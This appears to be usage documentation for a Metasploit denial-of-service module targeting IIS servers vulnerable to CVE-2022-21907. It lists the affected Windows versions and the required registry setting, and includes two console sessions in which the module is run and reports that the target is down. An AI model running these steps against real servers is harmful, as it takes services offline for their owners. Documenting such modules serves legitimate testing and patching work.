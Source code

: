 ## Vulnerable Application

IIS web server without KB:
 - Windows 10 Version 1809 && Windows Server 2019 (include Core): KB5009557
 - Windows 10 (Versions 20H2, 21H1, 21H2) && Windows Server Version 20H2 (include Core): KB5009543
 - Windows 11: KB5009566
 - Windows Server 2022 (include Core): KB5009555

and with DWORD: `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\HTTP\Parameters` value **EnableTrailerSupport** enabled.

![Weak configuration](https://mauricelambert.github.io/vulnerability/images/CVE-2022-21907_weak_configuration.png "Weak configuration")

### Source

 - [Microsoft](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-21907)

## Options

### RHOST

 - **Required**
 - Type: **address**
 - *No default value*

Should be the weak IIS server address.

### RPORT

 - **Required**
 - Type: **integer**
 - Default value: **80**

Should be the weak IIS server port.

### TARGETURI

 - **Optional**
 - Type: **string**
 - Default value: **/**

## Scenarios

```text
msf6 > use exploit/windows/iis/rb_dos_iis_2022_21907 
msf6 auxiliary(windows/iis/rb_dos_iis_2022_21907) > set RHOST 10.10.10.10
RHOST => 10.10.10.10
msf6 auxiliary(windows/iis/rb_dos_iis_2022_21907) > exploit
[*] Running module against 10.10.10.10

[+] Target is down.
[*] Auxiliary module execution completed
msf6 auxiliary(windows/iis/rb_dos_iis_2022_21907) >
```

```text
msf6 > use exploit/windows/iis/rb_dos_iis_2022_21907 
msf6 auxiliary(windows/iis/rb_dos_iis_2022_21907) > set RHOST 10.10.10.10
RHOST => 10.10.10.10
msf6 auxiliary(windows/iis/rb_dos_iis_2022_21907) > set RPORT 80
RPORT => 80
msf6 auxiliary(windows/iis/rb_dos_iis_2022_21907) > set TARGETURI "/test/"
TARGETURI => /test/
msf6 auxiliary(windows/iis/rb_dos_iis_2022_21907) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(windows/iis/rb_dos_iis_2022_21907) > exploit
[*] Running module against 10.10.10.10

[*] Trying first connection...
[+] First connection OK. Sending payload...
[+] Payload is sent. Check that the server is down...
[-] The connection was refused by the remote host (10.10.10.10:80).
[+] Target is down.
[*] Auxiliary module execution completed
msf6 auxiliary(windows/iis/rb_dos_iis_2022_21907) >
```

## Reference

 - [Microsoft](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-21907)
 - [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2022-21907)
